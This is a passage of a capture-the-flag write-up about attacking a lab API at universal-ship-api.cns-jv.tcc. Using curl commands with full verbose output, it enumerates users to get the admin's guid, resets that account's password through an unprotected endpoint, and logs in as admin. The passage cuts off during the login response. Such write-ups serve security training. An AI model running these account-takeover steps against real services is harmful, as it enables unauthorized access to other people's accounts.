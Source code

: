 The `/api/v1/admin/` check unsurprisingly returns false, but we can try enumerating some users (starting with 1).

```console
$ curl -H "Authorization: Bearer $usertoken" http://universal-ship-api.cns-jv.tcc/api/v1/user/1
{"guid":"c715a9e9-4e0f-45ab-bd70-13a8fccfd379","email":"admin@local.tcc","date":null,"time_created":1690796892351,"admin":true,"id":1}
```

We're lucky. The first user is admin so we need to impersonate it. We don't know the credentials, however,
the `/api/v1/user/updatepassword` seems to be accessible for all users, and it just needs `guid` (which we just
retrieved) and a new password.

```console
$ curl -v -H "Authorization: Bearer $usertoken" -H "Content-Type: application/json" -d '{"guid":"c715a9e9-4e0f-45ab-bd70-13a8fccfd379", "password": "TheWorstWriteupPasswordEver!"}' http://universal-ship-api.cns-jv.tcc/api/v1/user/updatepassword
* processing: http://universal-ship-api.cns-jv.tcc/api/v1/user/updatepassword
*   Trying 10.99.0.108:80...
* Connected to universal-ship-api.cns-jv.tcc (10.99.0.108) port 80
> POST /api/v1/user/updatepassword HTTP/1.1
> Host: universal-ship-api.cns-jv.tcc
> User-Agent: curl/8.2.1
> Accept: */*
> Authorization: Bearer eyJhbGciOiJSUzM4NCIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjk3ODMwMDMxLCJpYXQiOjE2OTcxMzg4MzEsInN1YiI6IjIiLCJhZG1pbiI6ZmFsc2UsImd1aWQiOiI2ZjgyY2QyMi01ZGFhLTQ2MzAtOWFhYS03OGIzMGI5YWJhZWMifQ.VPl2XEUtGrWJ8b67CLg8rUkEUuef8gqWX-JxWzivtPzNuFKOT8ucKGjUvzpLXR3atp90qePmbUzKcETMHV2_NhpjxGuvO0RboxkL0BpYnorFJOJwXUkuQQpyFl_XBQw1dp-eGHED8ernCO3TKkDFpLBbvwlALJzg9xGWeMYx7yb_CuDeppEhCuiX35ZvwNkyTtJ-9XTOqIzWHQAXE9arcELcgHBt3aPaPzJtRTWRhCd3bzfOqAiciZo8xfyMQN_kk-21Qh3W0BStHg6Ca_zUHkgPMw9ZO7R30YZxCWHDBqhLJbbEb7gcNI3U4t7-veZ3VfR1kzYs7ie5wrAe8noEtcxiv06cvGJx2PcSnqScSasziu8R1qfI3YWZfdjFW3NknTs5T0iNAyaSp4SoeavGFD0HdIDypL4_oE1uOZ5aaUfxZyygOJI8Aofs3G6naIUIFfqs716ez44dpcxy26_FQxw-jkiv9-3DfKx9cWK5IDKcDVzfs3cSEZ42BjiUXCq2g0Mb6_okBfcCf9c4FcNl5sRE9a0OJslGLtKWhp9zPFnRs4UPxQM3-icWnVFJ61PQPt0crRyp8MdPdIk7oS_IW_oiODz_FzpMVyCzC7l64lXspLsUrfbqgiK0_6hQC4vP2Ij_td_Nls2mwiU2TTB0M3Ms_E8VZSA0Dn_uUlvHIJg
> Content-Type: application/json
> Content-Length: 91
>
< HTTP/1.1 201 Created
< date: Thu, 12 Oct 2023 19:44:37 GMT
< server: uvicorn
< content-length: 134
< content-type: application/json
<
* Connection #0 to host universal-ship-api.cns-jv.tcc left intact
{"guid":"c715a9e9-4e0f-45ab-bd70-13a8fccfd379","email":"admin@local.tcc","date":null,"time_created":1690796892351,"admin":true,"id":1}
```

After successful password change, let's log in (before someone else changes it again)

```console
$ curl -v -H "Content-Type: application/x-www-form-urlencoded" -d 'username=admin@local.tcc&password=TheWorstWriteupPasswordEver!' http://universal-ship-api.cns-jv.tcc/api/v1/user/login
* processing: http://universal-ship-api.cns-jv.tcc/api/v1/user/login
*   Trying 10.99.0.108:80...
* Connected to universal-ship-api.cns-jv.tcc (10.99.0.108) port 80
> POST /api/v1/user/login HTTP/1.1
> Host: universal-ship-api.cns-jv.tcc
> User-Agent: curl/8.2.1
> Accept: */*
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 62
>
< HTTP/1.1 200 OK
< date: Thu, 12 Oct 2023 19:45:09 GMT
```